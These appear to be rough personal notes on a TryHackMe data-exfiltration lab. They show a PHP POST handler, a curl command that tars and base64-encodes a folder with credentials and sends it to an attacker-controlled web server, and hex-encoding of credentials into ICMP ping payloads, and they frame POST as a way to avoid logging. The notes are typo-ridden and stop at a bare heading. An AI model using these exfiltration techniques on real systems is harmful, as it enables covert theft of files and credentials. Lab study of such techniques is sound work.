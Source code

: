 ## Table of Contents



|   |   |   |
|---|---|---|
|**Domain Name**|**IP Address**|**Network Access**|
|jump.thm.com|192.168.0.133|Net 1 and Net 2|
|uploader.thm.com|172.20.0.100|Net 1|
|flag.thm.com|*****.**.*.*****|Net 1|
|victim2.thm.com|172.20.0.101|Net 1|
|web.thm.com|192.168.0.100|Net 2|
|icmp.thm.com|192.168.0.121|Net 2|
|victim1.thm.com|192.168.0.101|Net 2|













HTTP POST Request~
Exfiltration data through the HTTP Protocol is one of the best options becuase it is challenging ti detect. It is touch to distinguish between legitimate and malicious http traffic. We will use the POST HTTP method in the data exfiltration, and the reason is with the get request, all parameters are registers into the log file. While using POST request, it doesnt. the following are some of the POST method benefits:

- POST requests are never cached
- POST requests do not remain in the browser history
- POST requests cannot be bookmarked
- POST requests have no restrictions on **data length**


cat /var/log/apache2/access.log

thm@web-thm:~$ sudo cat /var/log/apache2/access.log
[sudo] password for thm: 
192.168.0.133 - - [29/Apr/2022:11:41:54 +0100] "GET /example.php?flag=VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo= HTTP/1.1" 200 495 "-" "curl/7.68.0"
192.168.0.133 - - [29/Apr/2022:11:42:14 +0100] "POST /example.php HTTP/1.1" 200 395 "-" "curl/7.68.0"
192.168.0.1 - - [20/Jun/2022:06:18:35 +0100] "GET /test.php HTTP/1.1" 200 195 "-" "curl/7.68.0"
thm@web-thm:~$ 

the first line is a GET request with a file parameter with exfiltrated data. If you try to decode it using the base64 encoding, you would get the transmitted data, which in this case is thm:tryhackme. While the second request is a POST to example.php, we sent the same base64 data, but it doesnt show what data was transmitted.

The base64 data in your access.log looks different. Decode it to find the flag for question 1

echo 'VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo' | base64 -d


Based on the attacker configuration, we can set up either HTTP or HTTPS, the encrypted version of HTTP. We also need a PHP page that handles the POST HTTP request sent to the server.

We will be using the HTTP protocol (not the HTTPS) in our scenario. Now let's assume that an attacker controls the web.thm.com server, and sensitive data must be sent from the JumpBox or  victim1.thm.com machine in our Network 2 environment (192.168.0.0/24).  

To exfiltrate data over the HTTP protocol, we can apply the following steps:

1. An attacker sets up a web server with a data handler. In our case, it will be web.thm.com and the contact.php page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.

Let's follow and apply what we discussed in the previous steps. Remember, since we are using the HTTP protocol, the data will be sent in cleartext. However, we will be using other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format!

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.

`<?php
if (isset($_POST['file'])) {
    ```php
$file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>

From the jump machine connect to the victime1.thm.com machine via ssh to exfiltrate the reqired data over the HTTP protocol. 

The goal is to transfer the folder's content, stored in /home/thm/task6, to another machine over the HTTP protocol.

Checking the Secret folder!  

```markup
thm@victim1:~$ ls -l
total 12
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task4
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task5
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task6
drwxr-xr-x 1 root root 4096 Jun 19 19:43 task9
```

Now that we have our data, we will be using the curl command to send an HTTP POST request with the content of the secret folder as follows,

Sending POST data via CURL  

```markup
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```


Nice! We have received the data, but if you look closely at the http.bs64 file, you can see it is broken base64. This happens due to the URL encoding over the HTTP. The + symbol has been replaced with empty spaces, so let's fix it using the sed command as follows,

thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64


Restoring the Data

```markup
thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```

Finally, we decoded the base64 string using the base64 command with -d argument, then we passed the decoded file and unarchived it using the tar command.


**Exfiltration using ICMP**

Let's say that we need to exfiltrate the following credentials thm:tryhackme. First, we need to convert it to its Hex representation and then pass it to the ping command using -p options as follows,
root@attackbox$ echo "thm:tryhackme" | xxd -p

We used the xxd command to convert our string to Hex, and then we can use the ping command with the hex value we got from converting the thm:tryhackme

Send Hex using the ping command.  

```markup
root@AttackBox$ ping 10.10.191.98 -c 1 -p 74686d3a7472796861636b6d650a
```

We sent one ICMP packet using the ping command with thm:tryhackme Data. Let's look at the Data section for this packet in the Wireshark.

We have successfully filled the ICMP's data section with out data and manually sent it over the network using the ping command


Attackbox IP: 10.10.14.235

We sent one ICMP packet using the nping command with --data-string argument. We specify the trigger value with the file name BOFfile.txt, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.


[DNS Configurations]



